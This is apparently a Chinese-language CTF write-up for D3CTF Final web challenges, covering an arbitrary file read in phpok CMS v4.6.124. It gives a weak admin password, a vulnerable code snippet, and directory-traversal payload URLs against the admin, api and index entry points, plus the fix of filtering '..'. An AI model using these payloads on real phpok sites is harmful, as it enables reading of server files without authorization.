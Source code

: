 ```yaml
---
title: D3CTF FINAL Writeup(WEB)
abbrlink: 10013
date: 2020-01-23 18:43:25
categories:
tags:
---
```


## 前言

抱歉来晚了,赛后写完就丢在草稿箱里忘了发.

技术部分实际上比较常见,稍微写下水篇博客.

源码链接:可能有部分代码已被修改,可以参考文章看原本的漏洞位置.

https://share.weiyun.com/57BvkJk




## web1 

cms: phpok v4.6.124

写的顺序就按照我们挨打的顺序来了.

### 任意文件读

最初看到的流量是后台的任意文件读,稍微看了下代码.

后台弱口令admin:admin123

漏洞位于:`\phpok\\framework\admin\admin_control.php:129行`

```php
    $title = $this->get("title");
    $file = $this->dir_root . $folder . $title;
```
没有过滤直接拼接,因此可以目录穿越读到flag.

payload:

`/admin.php?c=appsys&f=file_edit&id=fav&title=../../../../../../../flag`

比赛的时候比较着急,只看到挨打后顺着流量摸了这个文件,没去仔细审计.赛后稍微看了下,类似的操作不止可以读文件.在写文件,解压文件都以同样的方式拼接字符串.而且在index与api入口,也存在类似拼接.因此前台即可读文件.

api处payload: `api.php?c=download&file=res/201903/27/../../../../../../../flag`

index处payload: `c=download&file=res/201903/27/../../../../../../../flag`

修复则是在入口处简单过滤了`..`

### 前台getshell

详情见文章:https://www.anquanke.com/post/id/194453
